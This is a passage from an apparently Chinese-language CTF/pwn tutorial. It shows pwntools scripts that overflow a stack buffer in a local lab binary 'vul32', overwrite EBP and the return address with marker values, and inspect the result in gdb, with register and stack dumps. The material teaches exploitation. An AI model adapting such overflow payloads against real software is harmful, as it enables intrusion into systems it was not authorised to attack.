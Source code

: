```python
from pwn import *

myelf  = ELF("./vul32")
io = process(myelf.path)
gdb.attach(io,"b * 0x08048641")

payload = 'a'*51+'C'+p32(0xb19b00b5)+p32(0xdeadbeef)
io.recv()
io.sendline(payload)
io.interactive()
```

不知道为啥，不过刚开始用pwntools的gdb模块时还有一种情况经常会导致调试失败，就是最后没有调用interactive()等待，这样的话python进程运行完就会退出，启动的被调试的进程也会退出导致无法调试。总之用ELF函数，然后再用path属性传给process函数时，调试可以正常进行。


### 劫持EIP和EBP

```python
from pwn import *

myelf  = ELF("./vul32")
io = process(myelf.path)
gdb.attach(io,"b * 0x08048641")

payload = 'a'*51+'C'+p32(0xb19b00b5)+p32(0xdeadbeef)
payload += p32(0)+p32(1)+p32(2)+p32(3)

io.recv()
io.sendline(payload)
io.interactive()
```

按照如上脚本启动调试，在调试窗口用命令c到达我们的断点处，然后用n命令单步执行，然后直接一直按回车就可以继续单步执行，回车是重复上一条命令，执行完leave后可见EBP已经覆盖为0xb19b00b5

```c
[----------------------------------registers-----------------------------------]
EAX: 0x35 ('5')
EBX: 0x0 
ECX: 0x0 
EDX: 0xf7ef8870 --> 0x0 
ESI: 0xf7ef7000 --> 0x1b1db0 
EDI: 0xf7ef7000 --> 0x1b1db0 
EBP: 0xb19b00b5 
ESP: 0xffde93cc --> 0xdeadbeef 
EIP: 0x804865b (<dovuln+144>:	ret)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048653 <dovuln+136>:	je     0x804865a <dovuln+143>
   0x8048655 <dovuln+138>:	call   0x8048460 <__stack_chk_fail@plt>
   0x804865a <dovuln+143>:	leave  
=> 0x804865b <dovuln+144>:	ret    
   0x804865c <main>:	lea    ecx,[esp+0x4]
   0x8048660 <main+4>:	and    esp,0xfffffff0
   0x8048663 <main+7>:	push   DWORD PTR [ecx-0x4]
   0x8048666 <main+10>:	push   ebp
[------------------------------------stack-------------------------------------]
0000| 0xffde93cc --> 0xdeadbeef 
0004| 0xffde93d0 --> 0x0 
0008| 0xffde93d4 --> 0x1 
0012| 0xffde93d8 --> 0x2 
0016| 0xffde93dc --> 0x3 
0020| 0xffde93e0 --> 0xf7ef7000 --> 0x1b1db0 
0024| 0xffde93e4 --> 0xf7ef7000 --> 0x1b1db0 
0028| 0xffde93e8 --> 0x0 
[------------------------------------------------------------------------------]
```